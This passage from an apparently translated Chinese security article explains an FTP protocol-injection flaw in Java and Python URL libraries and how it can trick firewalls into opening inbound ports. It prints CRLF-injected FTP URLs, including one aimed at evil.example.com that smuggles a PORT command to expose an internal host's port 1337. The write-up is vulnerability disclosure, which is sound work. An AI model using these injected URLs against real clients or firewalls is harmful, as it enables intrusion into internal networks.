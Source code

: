 在过去的几年时间里，我一直都在研究这种协议注入漏洞。根据我的研究发现，这种FTP协议注入漏洞将允许攻击者绕过目标设备的防火墙，并与目标主机系统建立远程TCP链接（端口1024-65535）。存在类似漏洞的还有Python的urllib2和urllib库，但需要注意的是，这个Java漏洞将允许攻击者对桌面用户进行攻击，即便是用户没有启用任何的Java浏览器插件。

<br>

**漏洞信息**

在多种情况下，攻击者都可以利用恶意URL以及FTP协议流注入漏洞来对Java应用实施攻击。如果攻击者可以让目标Java应用尝试去获取恶意URL所指向的资源，那么攻击者就可以向客户端的协议流中注入FTP命令了。先看下面这个URL：

```
ftp://foo:bar%0d%0aINJECTED@example.net/file.png
```

这样就可以向TCP流数据中添加新的行，然后让接收信息的服务器认为URL中的“INJECTED”是客户端单独发送的一条命令。当Java应用获取到了上面的这个URL之后，会将其切分成多个单独的指令序列来发送：

```
USER foo
PASS bar
INJECTED
TYPE I
EPSV ALL
PASV
...
```

实际上在Java中，一条URL里的多个数据域都将导致注入攻击，包括URL里的用户名域以及地址中所指定的任何目录在内。虽然Python的网络库（Python2的urllib2以及Python3的urllib）同样存在类似的协议流注入漏洞，但是Python中的这种漏洞只允许攻击者通过URL中特定的目录名称来实施攻击，所以攻击是受限的。

<br>

**FTP的安全问题**

[![](./img/85543/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0171e9e4ee45249d76.png)

各位同学如果想要完全理解我接下来所要介绍的攻击，那么就必须扎实地掌握FTP协议的工作机制。FTP的通信需要建立两条链接，第一条即“控制通道”，第二条为“数据通道”。在控制通道中，客户端一般通过端口21与服务器建立一条TCP链接，然后通过这条链接来发送各种命令，而数据通道主要就是用来传输文件内容和其他数据的。传统的FTP协议描述为：FTP客户端会告诉服务器如何与其连接，然后FTP服务器再通过给定的IP地址和一个随机端口号来与客户端重连，连接成功后服务器便会通过一条临时信道来向客户端发送请求数据。但是随着网络地址转换（NAT）越来越常见，这种“传统模式”的FTP通信方式就会出问题了，所以这里要引入一种新的概念，即“被动模式”。在被动模式中，数据通道是由客户端发起建立的。随着时间的推移，防火墙也开始支持传统模式的FTP了，它们可以执行控制通道协议审查，然后利用动态路由算法来将服务器端发起的TCP连接定向转发到相应的主机。

实际上，传统模式的FTP和防火墙一直都是存在安全风险的。这种攻击技术的首次曝光是在2002年，当时有一名用户意外地在一个Web页面中加载了一个非特权Java Applet，这个Applet可以让目标主机建立一条指向攻击者服务器的FTP控制通道，然后欺骗防火墙开启任意TCP端口并保障通信的正常进行。但是十五年过去了，很多商业防火墙仍然默认支持传统模式的FTP。

<br>

**欺骗防火墙**

由于这个FTP控制通道注入漏洞允许我们控制FTP客户端所发送的命令，所以我们现在也许可以尝试一下十五年前的那种防火墙攻击。比如说，我们可以向流数据中注入一个恶意的PORT命令，当防火墙看到这个命令之后，它会将内部IP地址以及端口转换成外部IP及端口，然后启用一个临时的NAT规则并允许建立单向的TCP链接，然后将数据转发给FTP客户端。

[![](./img/85543/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0101a7c2fe68e5fb0f.png)

假设目标主机的内部IP地址为10.1.1.1，攻击者服务器为evil.example.com。然后我们可以通过下面这个URL来欺骗防火墙开启1337端口：

```
ftp://u:p@evil.example.com/foodir%0APORT%2010,1,1,1,5,57/z.txt
```

在传统模式FTP的PORT命令中，端口号会被切分成两个ASCII码字节，即1337 == 5*256 + 57。但如果想要实现攻击的话，我们还要解决两个问题。
